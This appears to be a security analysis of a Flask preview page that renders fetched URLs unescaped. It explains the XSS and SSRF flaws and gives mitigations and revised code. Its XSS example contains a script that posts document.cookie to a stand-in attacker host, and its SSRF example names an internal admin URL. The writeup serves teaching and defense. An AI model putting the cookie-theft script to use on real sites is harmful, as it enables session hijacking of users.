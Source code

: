 The provided Flask web application contains significant security vulnerabilities that can be exploited by malicious actors. Below is an analysis of these vulnerabilities, how they can be exploited, and best practices developers should follow to prevent such issues in the future.

## **Identified Vulnerabilities**

1. **Cross-Site Scripting (XSS) Vulnerability**
2. **Server-Side Request Forgery (SSRF) Vulnerability**

### 1. **Cross-Site Scripting (XSS) Vulnerability**

**Explanation:**
The application allows users to input a URL, fetches the content from that URL, and then renders it directly into the `preview_page` template using `render_template_string` with the `| safe` filter:

```python
content = response.text
return render_template_string(preview_page, content=content)
```

By marking `content` as safe, the application tells Flask to render the content without escaping HTML or JavaScript. If an attacker controls the content of the fetched URL, they can inject malicious scripts into the application.

**Exploitation Scenario:**
1. An attacker hosts a malicious page, e.g., `https://malicious.com/malicious.html`, containing JavaScript code:
    ```html
    <script>
        // Malicious script that steals cookies or performs other malicious actions
        fetch('https://attacker.com/steal-cookie', {
            method: 'POST',
            body: document.cookie
        });
    </script>
    ```
2. The attacker convinces a legitimate user to enter this malicious URL into the application's "Market Watcher" form.
3. The application fetches the content from the malicious URL and renders it without sanitization.
4. The malicious script executes in the context of the trusted domain (`Secure Bank`), potentially stealing sensitive information like session cookies.

**Impact:**
- **Session Hijacking:** Attackers can steal user session cookies, allowing them to impersonate legitimate users.
- **Data Manipulation:** Malicious scripts can modify the DOM, leading to false information display.
- **Phishing:** Users can be redirected to fraudulent pages mimicking the legitimate site to steal credentials.

### 2. **Server-Side Request Forgery (SSRF) Vulnerability**

**Explanation:**
The application fetches content from a user-supplied URL without proper validation:

```python
url = request.args.get('url')
response = requests.get(url)
```

This lack of validation allows attackers to craft URLs that point to internal services or resources within the server's network, potentially accessing sensitive information.

**Exploitation Scenario:**
1. An attacker identifies internal endpoints or services that are not exposed to the public internet, such as `http://localhost/admin`.
2. The attacker submits a URL pointing to these internal services through the "Market Watcher" form.
3. The application fetches the response from the internal service, potentially revealing sensitive data, configurations, or administrative interfaces.

**Impact:**
- **Access to Internal Systems:** Attackers can interact with internal services, databases, or administrative interfaces.
- **Data Exfiltration:** Sensitive data from internal networks can be accessed and exfiltrated.
- **Service Disruption:** Attackers can perform actions that disrupt internal services, leading to downtime or degraded performance.

## **Best Practices to Prevent Such Vulnerabilities**

### 1. **Mitigating Cross-Site Scripting (XSS):**

- **Avoid Using `render_template_string` with Untrusted Data:**
  - Instead of rendering user-supplied content directly, use predefined templates and pass data as context variables without marking them as safe.
  
- **Escape User Input:**
  - Ensure that any dynamic content rendered in templates is properly escaped. Flask/Jinja2 automatically escapes variables unless explicitly told not to.

- **Content Security Policy (CSP):**
  - Implement CSP headers to restrict the sources from which scripts can be loaded, mitigating the impact of XSS attacks.

- **Input Validation:**
  - Validate and sanitize all user inputs, ensuring that they conform to expected formats and do not contain malicious code.

**Revised `preview` Route Example:**
```python
from flask import Flask, request, render_template_string
import requests
from markupsafe import escape

@app.route('/preview')
def preview():
    url = request.args.get('url')
    if not url:
        return "Please provide a URL.", 400
    try:
        response = requests.get(url)
        content = escape(response.text)  # Escape the content to prevent XSS
        return render_template_string(preview_page, content=content)
    except Exception as e:
        return f"An error occurred: {e}", 500
```

### 2. **Mitigating Server-Side Request Forgery (SSRF):**

- **Whitelist Allowed Domains:**
  - Restrict the URLs that can be fetched to a predefined list of trusted domains. Reject any URLs not in the whitelist.

- **URL Validation:**
  - Parse and validate the URL to ensure it does not point to internal IP addresses or localhost. Use libraries like `urllib.parse` to inspect URL components.

- **Network Egress Controls:**
  - Implement firewall rules that restrict outbound traffic from the server to only necessary destinations.

- **Time-Outs and Limits:**
  - Set reasonable timeouts and limits on request sizes to prevent resource exhaustion attacks.

**Revised `preview` Route with SSRF Mitigation:**
```python
from flask import Flask, request, render_template_string
import requests
from urllib.parse import urlparse
from markupsafe import escape

ALLOWED_DOMAINS = {'example.com', 'trustednews.com'}

@app.route('/preview')
def preview():
    url = request.args.get('url')
    if not url:
        return "Please provide a URL.", 400
    parsed_url = urlparse(url)
    if parsed_url.netloc not in ALLOWED_DOMAINS:
        return "URL domain is not allowed.", 400
    try:
        response = requests.get(url, timeout=5)  # Set a timeout
        content = escape(response.text)  # Escape the content to prevent XSS
        return render_template_string(preview_page, content=content)
    except requests.RequestException:
        return "Failed to retrieve the content.", 500
```

### 3. **General Security Best Practices:**

- **Use Templates Safely:**
  - Prefer using Flask's `render_template` with separate HTML files over `render_template_string`. This practice reduces the risk of template injection.

- **Regular Security Audits:**
  - Conduct regular code reviews and security audits to identify and fix vulnerabilities.

- **Dependency Management:**
  - Keep all dependencies up to date and monitor for known vulnerabilities in packages used.

- **Error Handling:**
  - Avoid exposing internal error messages to users. Use generic error messages and log detailed errors internally.

- **Implement Authentication and Authorization:**
  - Ensure that sensitive routes and actions are protected with proper authentication and authorization mechanisms.

- **Use HTTPS:**
  - Always serve the application over HTTPS to protect data in transit.

## **Conclusion**

The provided Flask application is vulnerable to critical security issues such as Cross-Site Scripting (XSS) and Server-Side Request Forgery (SSRF). By understanding these vulnerabilities and implementing the recommended best practices, developers can significantly enhance the security posture of their web applications, protecting both the application and its users from potential attacks.